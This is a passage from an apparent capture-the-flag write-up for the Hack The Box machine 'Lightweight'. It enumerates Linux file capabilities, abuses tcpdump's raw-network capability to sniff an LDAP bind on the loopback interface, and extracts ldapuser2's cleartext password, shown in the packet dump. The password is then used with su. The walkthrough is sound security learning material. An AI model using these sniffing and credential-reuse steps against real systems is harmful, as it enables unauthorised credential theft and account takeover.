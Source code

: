 ```bash

Files with capabilities (limited to 50):
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
```

I google searched more about capabilities and how they can be exploited for privledge escalation. This [article](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities) helps alot.

![](https://github.com/Leo-2807/Writeups/blob/main/images/light4.png)

Tcpdump have both these capabilities so we can run that to capture packets from the ldap port.

```bash
[10.10.14.2@lightweight ~]$ tcpdump -i lo -nnXs 0 'port 389'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
...snip...
13:10:49.993535 IP 10.10.10.119.35356 > 10.10.10.119.389: Flags [P.], seq 1:92, ack 1, win 683, options [nop,nop,TS val 3256442 ecr 3256441], length 91
        0x0000:  4500 008f b478 4000 4006 5cef 0a0a 0a77  E....x@.@.\....w
        0x0010:  0a0a 0a77 8a1c 0185 4426 0410 aed9 560d  ...w....D&....V.
        0x0020:  8018 02ab 2983 0000 0101 080a 0031 b07a  ....)........1.z
        0x0030:  0031 b079 3059 0201 0160 5402 0103 042d  .1.y0Y...`T....-
        0x0040:  7569 643d 6c64 6170 7573 6572 322c 6f75  uid=ldapuser2,ou
        0x0050:  3d50 656f 706c 652c 6463 3d6c 6967 6874  =People,dc=light
        0x0060:  7765 6967 6874 2c64 633d 6874 6280 2038  weight,dc=htb..8
        0x0070:  6263 3832 3531 3333 3261 6265 3164 3766  bc8251332abe1d7f
        0x0080:  3130 3564 3365 3533 6164 3339 6163 32    105d3e53ad39ac2
```


There was a ldap login request from user `ldapuser2` and it had his password.

```bash
[10.10.14.2@lightweight ~]$ su ldapuser2
Password: 
[ldapuser2@lightweight 10.10.14.2]$ id
uid=1001(ldapuser2) gid=1001(ldapuser2) groups=1001(ldapuser2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[ldapuser2@lightweight ~]$ ls
backup.7z  OpenLDAP-Admin-Guide.pdf  OpenLdap.pdf  user.txt 
```
